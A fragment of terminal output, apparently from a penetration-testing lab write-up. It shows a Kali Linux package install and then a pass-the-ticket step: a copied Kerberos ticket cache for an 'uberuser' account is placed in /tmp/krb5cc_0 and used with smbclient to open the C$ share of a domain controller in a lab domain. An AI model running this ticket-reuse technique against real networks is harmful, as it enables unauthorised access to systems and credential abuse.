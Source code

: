 Need to get 466 kB of archives.
After this operation, 1,199 kB of additional disk space will be used.
Do you want to continue? [Y/n] y
0% [Connecting to http.kali.org]
<SNIP>
<SNIP>
<SNIP>

root@kali:~/Desktop# klist
klist: Credentials cache file '/tmp/krb5cc_0' not found
root@kali:~/Desktop# cp uberuser@SITTINGDUCK.INFO.ccache /tmp/krb5cc_0
root@kali:~/Desktop# smbclient -k //dc1.sittingduck.info/c$
OS=[Windows Server 2012 R2 Standard 9600] Server=[Windows Server 2012 R2 Standard 6.3]
smb: \> 
```

